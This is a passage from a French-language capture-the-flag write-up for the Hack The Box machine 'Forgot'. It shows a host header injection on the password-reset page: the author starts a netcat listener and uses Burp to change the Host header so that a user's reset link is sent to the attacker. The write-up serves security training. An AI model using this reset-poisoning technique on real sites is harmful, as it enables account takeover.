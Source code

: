 Nous avons bien une injection de l'en-tête d'hôte.

Essayons d'envoyer une autre requête mais cette fois-ci avec la page `/forgot` avec le nom d'utilisateur 'robert-dev-14320' :
 - Netcat : 
	```bash
	$ sudo nc -lnvp 4444
	Ncat: Version 7.92 ( https://nmap.org/ncat )
	Ncat: Listening on :::4444
	Ncat: Listening on 0.0.0.0:4444

	```

- Firefox :

	![HTTP_reset_robert.png](https://github.com/RawMain121/writeups/blob/main/HackTheBox/Forgot/_resources/HTTP_reset_robert.png)


- On intercepte et modifie la requête (`Host : <notre adresse IP>`) :

	![BURP_intercept_resetInjection.png](https://github.com/RawMain121/writeups/blob/main/HackTheBox/Forgot/_resources/BURP_intercept_resetInjection.png)

